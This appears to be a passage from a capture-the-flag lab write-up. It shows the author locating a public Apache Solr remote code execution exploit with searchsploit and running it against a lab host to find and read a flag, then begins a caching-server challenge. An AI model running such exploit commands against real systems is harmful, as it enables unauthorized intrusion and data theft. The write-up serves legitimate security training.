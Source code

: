 Now, to find an exploit.

```
root@attackdefense:~# searchsploit Solr
--------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                 |  Path
                                                                                                               | (/usr/share/exploitdb/)
--------------------------------------------------------------------------------------------------------------- ----------------------------------------
Apache Solr 7.0.1 - XML External Entity Expansion / Remote Code Execution                                      | exploits/xml/webapps/43009.txt
Apache Solr 8.2.0 - Remote Code Execution                                                                      | exploits/java/webapps/47572.py
Solr 3.5.0 - Arbitrary Data Deletion                                                                           | exploits/java/webapps/39418.txt
--------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
```

Note that this exploit is _not_ inside of the metasploit framework. Using this exploit directly from the command line, we can find and read the flag.

```
root@attackdefense:~# python3 /usr/share/exploitdb/exploits/java/webapps/47572.py 192.38.186.3 8983 "find / -xdev -name *flag"
...
Init node db Successfully, exec command=find / -xdev -name *flag
RCE Successfully @Apache Solr node db
   /flag
...
root@attackdefense:~# python3 /usr/share/exploitdb/exploits/java/webapps/47572.py 192.38.186.3 8983 "cat /flag"
...
Init node db Successfully, exec command=cat /flag
RCE Successfully @Apache Solr node db
   1ba0fa89d14e9b1e74a88160dc0d85af
...
```


# Network

All of these challenges involve the indirect exploitation of network facing servers. Sounds fun enough.


## Caching Server
>Over the past years, caching servers have played a crucial role in speeding up the content served by the webservers. In most cases, caching servers are deployed on the internal network and are not protected with authentication.
In this challenge, the attacker has managed to sneak into the internal network and can interact with the caching server.
Please answer the following questions:
> 1. How many key-value pairs are stored on the caching server?
> 2. Find the value stored in key “api-key” on the caching server.
> 3. Find the name of the key which is present in the warm cache of the caching server. 

